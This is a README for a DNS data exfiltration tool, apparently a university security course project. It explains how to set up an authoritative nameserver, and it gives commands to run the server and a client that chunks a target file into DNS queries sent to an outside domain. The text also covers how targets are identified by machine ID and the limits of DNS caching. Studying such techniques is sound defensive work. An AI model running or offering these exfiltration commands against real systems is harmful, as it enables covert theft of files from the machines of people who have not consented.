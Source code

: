 # DNS Data Exfiltration

## Setting Up DNS Records

In order for DNS exfiltration to work, we need to set up our own DNS server that is the authoritative nameserver for some domain.

1. Create an A record pointing to the IP address of the DNS server to exfiltrate data to.
1. Create an NS record pointing to the previously created A record.

   This NS record will be used as the domain for all of our DNS queries.

## Running the DNS Exfiltration Server

DNS requests that reach the DNS exfiltration server are parsed according to the specified format.
Multiple DNS requests are processed and the data inside the files being exfiltrated are reconstructed and written to disk with their original file paths in `./exfiltrated-data/<machine ID>/<file path>`.
This preserves the structure of the files when exfiltrating directories of files.

Example of running the DNS exfiltration server:
```sh
make compile
sudo ./dns-exfiltration-server -n cs5231.ianyong.com
```

Note that root privileges are required to bind to port 53 as it is as well-known port for DNS.
Once the server has binded to the port, it will drop its privileges to that of the calling user.

In addition, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must also be passed in as a command line argument.
This is necessary for the server to know which parts of the DNS request name correspond to the data being exfiltrated.

## Running the DNS Exfiltration Client

The client takes in a file path, reads the file, and breaks its content up into chunks to exfiltrate over DNS.

Example of running the DNS exfiltration client:
```sh
make compile
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt
```

Similar to the DNS exfiltration server, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must be passed in as a command line argument.
The client also takes in the path of the file to be exfiltrated.

## Design Decisions

### Identifying Targets

Targets cannot be identified via the IP address seen by the server.
This is because our DNS server will not be the local DNS server that the target talk to.
As such, regardless of the DNS query type (iterative or recursive), our DNS server never talks directly to the target.

In addition, some local DNS servers have a range of IP addresses which they use to communicate to other DNS servers.
Given the connectionless nature of UDP (the transport protocol used by DNS), every DNS request that we receive from the same target can come from different IP addresses.

In order to be able to handle simultaneous traffic from multiple hosts, as well as to uniquely identify targets which we exfiltrate data from, we make use of the machine ID of the target machine.
The machine ID is a unique string that is set during installation of the operating system.
We make use of the [machineid](https://github.com/denisbrodbeck/machineid) library to retrieve the machine ID from the target.

## Limitations

### DNS Caching

The DNS responses sent by the server have a Time-To-Live (TTL) of 300 seconds.
This is because setting it any lower might result in some DNS resolvers to ignore its value.
As a result, trying to exfiltrate the same file will not work until some time has passed (likely 5 minutes if the TTL is respected, possibly longer).
This is not a big issue as long as the exfiltration does not fail halfway through as we are unlikely to need to exfiltrate a recently exfiltrated file.
